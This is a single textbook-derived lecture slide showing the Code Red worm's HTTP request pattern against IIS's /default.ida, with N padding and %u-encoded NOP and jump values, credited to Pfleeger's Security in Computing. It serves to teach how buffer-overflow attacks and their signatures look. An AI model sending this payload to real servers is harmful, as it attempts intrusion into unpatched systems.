

53
# Code Red worm Code Pattern
/default.ida?NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
%u9090%u6858%ucbd3
%u7801%u9090%u6858%ucdb3%u7801%u9090%u6858
%ucbd3%u7801%u9090
%u9090%u8190%u00c3%u0003%ub00%u531b%u53ff
%u0078%u0000%u00=a HTTP/1.0
From Security in Computing, Fifth Edition, by Charles P. Pfleeger, et al. (ISBN: 9780134085043). Copyright 2015 by Pearson Education, Inc. All rights reserved.